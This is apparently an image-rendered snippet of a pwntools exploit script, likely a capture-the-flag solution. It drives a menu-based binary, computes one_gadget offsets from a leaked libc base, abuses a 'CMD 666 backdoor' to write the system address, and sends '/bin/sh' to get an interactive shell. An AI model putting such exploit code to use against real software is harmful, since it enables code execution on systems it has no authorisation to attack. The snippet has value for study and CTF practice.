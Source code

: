 ```plain
#gdb.attach(p)
#attack QWQ
cmd(2)
cmd(1)
cmd(1)

#one gadgte
one=[0x50a47+libcbase,0xebc81+libcbase,0xebc85+libcbase,0xebc88+libcbase]

#CMD 666 backdoor
cmd(666)
p.sendline(p64(system))
cmd(666)
p.sendline(p64(system))
print("libcbase",hex(libcbase))
#gdb.attach(p,"b *$rebase(0x137b)")
cmd(4)
p.sendline("/bin/sh\x00")

p.interactive()
```

